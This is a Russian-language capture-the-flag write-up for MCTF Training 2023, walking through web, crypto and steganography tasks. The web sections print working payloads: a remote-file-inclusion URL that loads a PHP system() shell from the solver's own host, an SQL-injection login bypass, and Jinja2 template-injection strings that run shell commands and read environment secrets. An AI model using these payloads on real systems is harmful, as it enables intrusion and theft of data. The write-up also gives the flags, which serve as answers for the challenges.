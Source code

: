 # MCTF Training 2023

---

## Task 1: CTF-WIKI (web)

Открытваем сайт и попадаем на вики по CTF:

![ScreenShot](screenshots/1.png)

При этом, когда мы нажимаем на разделы, основная страница подтягиваем дополнительное содержимое:

```sh
http://ctf-wiki.mctf.ru/?file=1
```

![ScreenShot](screenshots/2.png)

Пробуем подставить `/etc/passwd`:

![ScreenShot](screenshots/3.png)

На своем сайте делаем файл с php-нагрузкой:

```php
<?php echo system("UNIX COMMAND HERE");
```

Сначала подставляем в качестве команды `ls` и узнаем содержимое директории, после чего читаем файл с флагом:

![ScreenShot](screenshots/4.png)

```sh
http://ctf-wiki.mctf.ru/?file=https://<your_domain>/rce.txt
```

![ScreenShot](screenshots/5.png)

**Flag is: mctf{rfi_i5_vERY_C00l}**

---

## Task 2: Secure DB (web)

Переходим по ссылки:

![ScreenShot](screenshots/6.png)

Переходим по указанному пути:

![ScreenShot](screenshots/7.png)

Пробуем базовые пейлоады и останавлдиваемся на следующем (пароль любой):

```sql
' or 1=1 --
```

![ScreenShot](screenshots/8.png)

![ScreenShot](screenshots/9.png)

**Flag is: MCTF{SQL_4RE_V3RY_D4NG3R}**

---

## Task 3: Private Shop (web)

Заходим на веб-ресурс и просматриваем перечень товаров:

![ScreenShot](screenshots/10.png)

И тут находим в названии товаров пейлоады SSTI:

![ScreenShot](screenshots/11.png)

![ScreenShot](screenshots/12.png)

Регистрируемся на ресурсе:

![ScreenShot](screenshots/13.png)

Создаем в качестве теста свой продукт с полезной нагрузкой в названии:

![ScreenShot](screenshots/14.png)

![ScreenShot](screenshots/15.png)

![ScreenShot](screenshots/16.png)

Создаем новый продукт и помезаем в него следующий пейлоад:

```sh
{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}
```

![ScreenShot](screenshots/17.png)

Находим файл `products.py` и читаем его через:

```sh
{{config.__class__.__init__.__globals__['os'].popen('cat products.py').read()}}
```

```python
import os from pathlib 
import Path from flask
import Blueprint, request, render_template, render_template_string, abort, flash, session from flask_login 
import current_user, login_required from flask_pymongo 
import ObjectId from time import gmtime, strftime 
import hashlib from app 
import mongo 

products = Blueprint('products', __name__, template_folder='templates') 

db = mongo.db salt = b"H1NIm" 

def generate_token(str1, str2): 
	return hashlib.sha256(bytes(str1, 'utf-8') + salt + bytes(str2, 'utf-8')).hexdigest()

@products.route('/', methods=['GET']) 
def product_list():
	if not db.products.find_one({"name": "flag"}): 
		db.products.insert({"name": "flag", "public" : False, "body" : os.environ.get('FLAG',"-"), "user" : "netu", "time" : "2020-02-14 17:06:10"}) 
		products_data = db.products.find({'public': {"$eq": True}}) 

		return render_template('products.html', products=products_data) 


@products.route('/my_products', methods=['GET']) 
def personal_products(): 
	products_data = db.products.find({'user': current_user.id}) return render_template('products.html', products=products_data) 


@products.route('/product/create', methods=['GET', 'POST']) 
@login_required 
def create_products(): 
	if request.method == 'POST': 
		form = request.form 
		if form.get('public', '') == 'yes': 
			public = True 
		else: 
			public = False 

		db.products.insert_one({ 'name': form.get('name', ''), 'public': public, 'body': form.get('body', ''), 'img_url': form.get('url',''), 'user': current_user.id, 'cost': form.get('cost', '100'), 'time': strftime("%Y-%m-%d %H:%M:%S", gmtime()) }) 

		flash('Product added!') 
		return render_template('create_product.html') 


@products.route('/product/<id>', methods=['GET']) 
def note_view(id): 
	product = db.products.find_one({"_id" : ObjectId(id)}) 
	template = open(str(Path(__file__).parent.absolute()) + '/templates/product.html').read() \ .replace('{INSERT_HERE}', product.get('name', '')) 

	return render_template_string(template, product=product)
```

При исследовании данного файла находим следующую строку:

```sh
os.environ.get('FLAG',"-")
```

Собственно, флаг хранится в переменной окружения, которую мы спокойно можем достать:

```sh
{{config.__class__.__init__.__globals__['os'].environ.get('FLAG',"-")}}
```

![ScreenShot](screenshots/18.png)

**Flag is: MCTF{t00_e4sy_w3b_f0r_y0u}**

---

## Task 4: 32 (crypto)

Дана строка: NVRXIZT3N5WWOLROFZRGC43FGMZH2===

В названии намек на base32. Декодим:

![ScreenShot](screenshots/19.png)

![ScreenShot](screenshots/20.png)

**Flag is: mctf{omg...base32}**

---

## Task 5: LSB (stegano)

Дана картинка:

![ScreenShot](screenshots/21.png)

Просматрирваем через Aperi'Solve:

![ScreenShot](screenshots/22.png)

**Flag is: MCtf{Flag}**

---

## Task 6: on my puter (stegano)

Дана картинка:

![ScreenShot](screenshots/23.png)

Просматрирваем через Aperi'Solve и находим флаг через Exiftool:

![ScreenShot](screenshots/24.png)

**Flag is: mctf{c0mp7t3r}**

---

## Task 7: stegland (stegano)

Дана картинка:

![ScreenShot](screenshots/25.png)

Просматрирваем через Aperi'Solve и находим, что binwalk нашел файл внутри картинки:

![ScreenShot](screenshots/26.png)

![ScreenShot](screenshots/27.png)

Вот и внутренний файл (да, может на нем ничего не видно, но в этом и суть, флаг очень слабо просматривается, нужно вглядываться, но флаг все равно нереально прочитать):

![ScreenShot](screenshots/28.png)

Посмотрим через фильтры, которые предоставляется Aperi'Solve:

![ScreenShot](screenshots/29.png)

**Flag is: MCTF{II_WaSNt_wOrried_Ab0ut_yoU}**

---
